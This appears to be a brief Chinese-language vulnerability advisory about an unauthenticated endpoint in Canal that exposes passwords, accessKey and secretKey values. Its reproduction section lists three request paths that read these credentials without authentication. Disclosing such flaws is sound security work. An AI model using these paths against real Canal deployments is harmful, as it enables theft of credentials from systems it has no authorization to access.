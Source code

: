 # Canal存在敏感信息泄露漏洞

### 一、漏洞描述
由于/api/v1/canal/config 未进行权限验证可直接访问，导致账户密码、accessKey、secretKey等一系列敏感信息泄露

### 二、影响版本
![1724655325946-ad9a7d05-7071-45fd-af16-6bbea6200466.png](./img/gC-N1JsYpGKl-Ujh/1724655325946-ad9a7d05-7071-45fd-af16-6bbea6200466-514319.png)

### 三、漏洞复现
```plain
/api/v1/canal/config/1/0
```

```plain
/api/v1/canal/config/0/9
```

```plain
/api/v1/canal/instance/1
```

![1724655404641-4703126f-5cc5-4a11-b276-958eac455a81.png](./img/gC-N1JsYpGKl-Ujh/1724655404641-4703126f-5cc5-4a11-b276-958eac455a81-068083.png)



> 更新: 2024-09-05 23:24:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ulgmpe74leezg156>